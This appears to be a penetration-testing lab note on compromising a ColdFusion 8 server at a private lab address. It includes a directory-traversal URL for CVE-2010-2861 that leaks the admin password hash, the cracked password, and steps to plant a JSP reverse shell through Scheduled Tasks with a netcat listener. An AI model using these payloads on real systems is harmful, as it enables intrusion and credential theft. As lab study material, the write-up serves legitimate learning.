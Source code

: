 => 8500


## port 8500 : Coldfusion

http://10.10.10.11:8500/CFIDE
http://10.10.10.11:8500/CFIDE/administrator

Coldfusion 8 Administrator GUI

## Coldfusion 8 CVE-2010-2861 - Directory traversal

https://www.exploit-db.com/exploits/14641

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

=> Encrypted password : 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03


````
$ hash-identifier 
HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+]  SHA-1
````

=> decrypt : happyday


## Use Coldfusion to upload file

upload files via Scheduled Tasks under the Debugging & Logging Category.
The scheduled task setup gives you the ability to download a file from a webserver and save the output locally. Under Mappings, we can verify the CFIDE path, so we know where we can save a shell.


    Set the URL to our webserver hosting the JSP shell
    Check the box for Save output to a file
    Set File to C:\ColdFusion8\wwwroot\CFIDE\shell.jsp

After submitting we run the task on demand under Actions, and we can see the 200 reponse on our python http server.

Fire up a netcat listener and we can now browse to our shell at http://10.10.10.11:8500/CFIDE/shell.jsp
   
    
 
## Coldfusion 8 CVE-2009-2265 Arbitrary File Upload / Execution

https://www.exploit-db.com/exploits/16788

=> metasploit

=> script : https://www.codewatch.org/blog/?p=299
